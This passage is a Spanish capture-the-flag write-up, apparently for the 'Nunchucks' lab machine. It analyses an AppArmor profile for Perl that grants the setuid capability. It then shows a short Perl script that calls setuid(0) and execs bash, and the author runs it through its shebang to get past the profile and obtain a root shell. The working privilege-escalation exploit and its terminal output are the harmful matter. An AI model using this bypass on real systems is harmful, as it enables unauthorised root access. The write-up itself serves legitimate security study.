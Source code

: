 Al revisar el perfil de `AppArmor` en `/etc/apparmor.d/usr.bin.perl`, observamos que `/usr/bin/perl` tiene la capacidad `setuid`, lo que le permite cambiar el _UID_ del proceso. Sin embargo, existen restricciones clave que limitan su alcance:

* Se deniega el acceso de escritura y ejecución a `/root/*` y `/etc/shadow`.
* No se permite la lectura de `/etc/nsswitch.conf`.
* Se permite la ejecución controlada de algunos binarios como `/usr/bin/id`, `/usr/bin/ls`, `/usr/bin/cat` y `/usr/bin/whoami`.
* Se restringe el acceso de `/usr/bin/perl` a ciertos archivos críticos, pero se permite la lectura en `/home/` y `/home/david/`.

Estas reglas limitan el impacto de la _capability_ `setuid`, aunque aún es posible evaluar si existen formas de evasión para escalar privilegios.

```bash
david@nunchucks:/etc/apparmor.d$ cat usr.bin.perl
# Last Modified: Tue Aug 31 18:25:30 2021
#include <tunables/global>

/usr/bin/perl {
  #include <abstractions/base>
  #include <abstractions/nameservice>
  #include <abstractions/perl>

  capability setuid,

  deny owner /etc/nsswitch.conf r,
  deny /root/* rwx,
  deny /etc/shadow rwx,

  /usr/bin/id mrix,
  /usr/bin/ls mrix,
  /usr/bin/cat mrix,
  /usr/bin/whoami mrix,
  /opt/backup.pl mrix,
  owner /home/ r,
  owner /home/david/ r,
}
```

Investigando en Internet, encontramos un blog donde explicaban cómo realizar un bypass de `AppArmor` usando un script en `Perl`. Siguiendo este método, creamos un script en `/tmp/gzzcoo.pl`, le asignamos permisos de ejecución y lo ejecutamos.

Inicialmente, al ejecutar `perl gzzcoo.pl`, el sistema devolvió un error de _Permission denied_. Sin embargo, al ejecutarlo directamente (`./gzzcoo.pl`), logramos obtener una shell como `root` y acceder a la flag **root.txt**.

Este comportamiento indica que `AppArmor` restringe la ejecución de `Perl` directamente, pero al ejecutar el script como binario, logramos evadir la restricción y escalar privilegios a `root`.

{% embed url="https://0xma.github.io/hacking/bypass_apparmor_with_perl_script.html" %}

```bash
david@nunchucks:/tmp$ cat gzzcoo.pl
#!/usr/bin/perl

use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX;;setuid(0);

exec "/bin/bash";
david@nunchucks:/tmp$ chmod +x gzzcoo.pl 
david@nunchucks:/tmp$ perl gzzcoo.pl 
Can't open perl script "gzzcoo.pl": Permission denied
david@nunchucks:/tmp$ ./gzzcoo.pl 
root@nunchucks:/tmp# whoami
root
```
